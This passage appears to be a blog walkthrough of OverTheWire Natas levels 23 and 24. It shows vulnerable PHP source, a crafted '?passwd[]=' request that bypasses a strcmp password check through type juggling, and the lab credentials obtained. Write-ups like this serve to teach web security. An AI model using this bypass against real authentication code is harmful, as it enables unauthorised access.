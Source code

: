 So all we have to do is enter a password that starts with a number greater than 50, followed by the *iloveyou* string, something like *50iloveyou*:

``` plain
The credentials for the next level are:

Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

// (I thought at the beginning that the comment was related to the challenge, but it turns out that's the handle of the creator of the challenge).



### Level 24

{% img center /images/overthewire/natas/natas23.png 'natas24' 'natas 24' %}

``` php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

This level is centered around exploiting the *strcmp* function. This function takes 2 strings as arguments and performs a case sensitive, binary safe string comparison:

``` plain
int strcmp ( string $str1 , string $str2 )
Returns < 0 if str1 is less than str2; > 0 if str1 is greater than str2, and 0 if they are equal. 
```



When reading the user contributed notes in the manual, I noticed the mention of the necessity for both parameters to be strings, otherwise the return values would be unexpected, especially if given something like an array. Then I searched for some more information about the subject, check [Chaotic Security blog](http://turbochaos.blogspot.jp/2013/08/exploiting-exotic-bugs-php-type-juggling.html) and the [OWASP PHP security cheatsheet](https://www.owasp.org/index.php/PHP_Security_Cheat_Sheet). If you pass an array to the function, it will return NULL, and PHP will treat it as a 0, hence fooling the code that you provided the correct password. So I did it like this: http://natas24.natas.labs.overthewire.org/?passwd[]=pwn

``` plain
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23

The credentials for the next level are:

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```
